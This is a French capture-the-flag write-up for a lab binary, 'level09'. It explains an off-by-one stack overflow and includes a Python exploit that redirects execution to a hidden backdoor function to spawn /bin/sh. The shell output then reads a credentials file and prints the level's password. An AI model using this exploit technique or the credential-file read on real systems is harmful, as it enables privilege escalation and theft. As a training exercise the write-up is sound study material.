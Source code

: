 
le niveau 09 est relativement simple, une structure est depose sur la stack, elle est remplie succesivement du nom de l'user puis d'un message
la faille vient d'une erreur du programmeur, en faisant un <= plutot qu'un <, en remplissant l'user on peux overflow pour ecrire plus que necessaire dans le message

on ciblera l'eip permettant a handle_msg de revenir correctement au main pour changer l'execution du programme sur secret_backdoor qui lit sur l'entree standart la commande a exec,
dans notre cas on demandera un shell.

$ cat /tmp/9/code.py
import struct
import sys

end = "\n"
username = "U" * 0x28

message = "M" * 0x8c
padding = "m" * 0x3c
secret = "\x8c\x48\x55\x55\x55\x55\x00\x00"

	message_length = struct.pack("<L", (len(message) + len(padding) + len(secret)))

sys.stdout.write(username + message_length + end)

sys.stdout.write(message + padding + secret + end)

sys.stdout.write("/bin/sh" + end)

$ (python /tmp/9/code.py; cat - ) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU�>: Msg @Unix-Dude
>>: >: Msg sent!
id
uid=1010(level09) gid=1010(level09) euid=1009(end) egid=100(users) groups=1009(end),100(users),1010(level09)
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

pour debugger a l'aider de gdb: ( ce dernier ajoute un newline automiquement  ce qui pause des problemes )
$ python code.py > /tmp/9/f ; xxd /tmp/9/f
gdb: run < /tmp/9/f


